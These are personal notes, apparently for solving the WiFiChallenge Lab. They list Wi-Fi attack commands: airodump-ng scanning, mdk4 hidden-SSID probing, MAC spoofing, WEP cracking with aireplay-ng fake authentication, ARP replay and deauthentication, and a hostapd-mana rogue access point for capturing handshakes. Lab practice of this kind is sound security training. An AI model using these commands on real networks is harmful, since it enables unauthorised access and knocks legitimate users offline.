 # Files: 
https://wifichallengelab.com/challenges  

# Solve:
https://r4ulcl.com/posts/walkthrough-wifichallenge-lab-2.0/#05-what-is-the-flag-in-the-hidden-ap-router-behind-default-credentials  
https://r4ulcl.com/posts/wifi_db-in-wifichallenge-lab/  

# Something new:
1) **airodump-ng** --> sudo airmon-ng start wlan0.  
                       sudo airodump-ng wlan0mon -w ~/wifi/scan --band abg --wps --manufacturer
2) **ESSID of hidden AP** --> https://xre0us.io/posts/identifying-ap-with-hidden-ssid/  
        sudo airmon-ng start wlan0  
        iwconfig wlan0mon channel <channel_number>  
        sudo mdk4 wlan0mon p -t <MAC> -f <wordlist>
3) **Connection using specific ESSID** --> Create config file  
       wpa_supplicant -Dnl80211 -iwlan2 -c <config_file>
       dhclient wlan2 -v  
4) To get valid credentials for login as well as the login.php you have to change the MAC address to that of the client using the ESSID.  
5) **besside-ng** --> used to crack WEP passwords and capture WPA handshakes.  
           besside-ng -c <channel_number> -b <bssid> wlan2 -v  
6) **Cracking WEP passwords** --> Capture data using airodump-ng.  
           To generate extra data to the AP,we can launch a fake authentification using --> sudo aireplay-ng -1 3600 -q  10 -a <BSSID> wlan0mon.  
           Also extra ARP packets can be generated using(ARP request-replay attack) --> sudo aireplay-ng --arpreplay -b <BSSIS> -h <client_MAC> wlan0mon.  
           Use aircrack-ng to crack pwd.  
7) **WEP** --> uses RC4 symmetric scheme, and the data is prepended with an IV which contains info about the key in use.  
            The IV is of 3bytes, out of which 2 bits are used for defining the encryption key in use.  
            The key is 40/104 bits long which along with the IV makes it 64/128 bits.  
            This key will perform XOR with the data and CRC and generate CT.  
            2 ways to boost ARP traffic in air -> 1) try fake auth with the AP 2) Disconnect legitimate users from the AP. (using aireplay-ng --deauth/--arpreplay/--fakeauth.  
            https://www.computerweekly.com/tip/Step-by-step-aircrack-tutorial-for-Wi-Fi-penetration-testing.  
8) **airedecap-ng** --> airdecap-ng -e <_bssid_> -p $PASSWORD <.cap file>  
9) **To get password of BSSID no longer there in network** --> create a fake AP with hostapd-mana and then get the handshakes of the clients that ask for this AP, perform a dictionary attack and get pwd.
10) 

            
